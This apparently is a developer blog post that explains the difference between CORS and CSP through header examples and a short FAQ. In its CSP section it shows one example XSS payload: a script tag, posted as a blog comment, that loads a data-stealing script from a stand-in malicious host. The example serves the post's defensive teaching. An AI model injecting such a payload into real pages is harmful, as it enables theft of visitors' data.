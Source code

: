 ```yaml
---
title: 'CORS vs. CSP: A Simple Guide'
date: '2025-09-06'
tags: ['security', 'webdev']
summary: 'A clear breakdown of CORS and CSP, explaining how they protect your server and users with practical examples.'
---
```


## What's the Difference Between CORS and CSP?

When building for the web, you'll often encounter two critical security policies: CORS and CSP. They sound similar, but they serve very different purposes. Let's break down what they do and why you need them.

> **CORS (Cross-Origin Resource Sharing)** is a browser security feature that allows a server to indicate which origins (domains) are permitted to access its resources.
>
> It answers the question: **"Who is allowed to read my data?"**

> **CSP (Content Security Policy)** is a security layer that helps prevent attacks like Cross-Site Scripting (XSS) by specifying which resources a browser is allowed to load for a page.
>
> It answers the question: **"What content is safe to run on my page?"**

---

## Example: CORS in Action

Imagine your web application is split into two parts:

-   **Frontend**: A React app running on `https://my-cool-app.com`.
-   **Backend API**: A server with data and logic running on `https://api.data-service.com`.

A user clicks a button, and the frontend needs to fetch data from the backend API.

### Without CORS

The browser's **Same-Origin Policy** blocks the request because it comes from a different domain. You'll see a CORS error in the developer console.

### With CORS

The backend team configures the server to send an HTTP header with its response:

```http
Access-Control-Allow-Origin: https://my-cool-app.com
```

The browser sees this header, confirms the origin is allowed, and lets the request proceed.

---

## Example: CSP in Action

Imagine you run a blog and want to protect users from malicious code injected into comments.

### The Problem

A hacker posts a comment with a harmful script:

```html
<script src="https://malicious-site.com/steal-user-info.js"></script>
```

Without CSP, a user's browser would execute this script, potentially stealing their data.

### With CSP

You configure your web server to send a `Content-Security-Policy` HTTP header:

```http
Content-Security-Policy: script-src 'self' https://www.google-analytics.com;
```

This policy tells the browser to only execute scripts from your own domain (`'self'`) and Google Analytics. The browser sees the malicious script, checks the policy, and **refuses to load it** because `https://malicious-site.com` is not on the whitelist.

---

## Common Questions about CORS

#### Is CORS a backend tool to protect my API?
No, it's a **browser security feature**. The browser is what enforces the restriction, not the backend. The backend's only job is to send headers that tell the browser what to allow.

#### Does CORS block tools like `curl` or Postman?
No. CORS only applies to requests made from a browser using JavaScript (like `fetch`). Direct API calls from servers or tools are not affected.

#### How should I actually protect my API?
True API security comes from:
-   **Authentication**: API keys, JWTs, or other tokens.
-   **Authorization**: Checking if the user has permission for a specific action.
-   **Rate Limiting**: Preventing abuse.
-   **Input Validation**: Cleaning and validating all incoming data.

---

## Summary

-   **CORS** is a browser mechanism that lets a server specify which other origins can **request** its data, preventing unauthorized cross-origin requests from malicious sites.
-   **CSP** protects your **users** by controlling what content (scripts, styles, etc.) can **run** on your website.
